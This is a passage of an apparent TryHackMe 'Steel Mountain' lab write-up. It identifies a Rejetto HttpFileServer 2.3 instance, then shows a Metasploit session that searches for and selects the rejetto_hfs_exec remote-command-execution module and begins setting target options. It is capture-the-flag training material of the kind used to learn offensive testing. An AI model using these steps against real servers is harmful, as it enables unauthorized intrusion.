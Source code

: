 ![](/assets/TryHackMeRoomsImage/STEELMOUNTAIN/server2.png)
 
 > I find this link in http://www.rejetto.com/hfs/
 >  Server information HttpFileServer 2.3

## METASPLOIT ACCESS

>**start msfconsole and search for `rejetto`**

 ```js
msf6 > search rejetto

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution

```
>USE 0

Set `RHOSTS` , `RPORT`
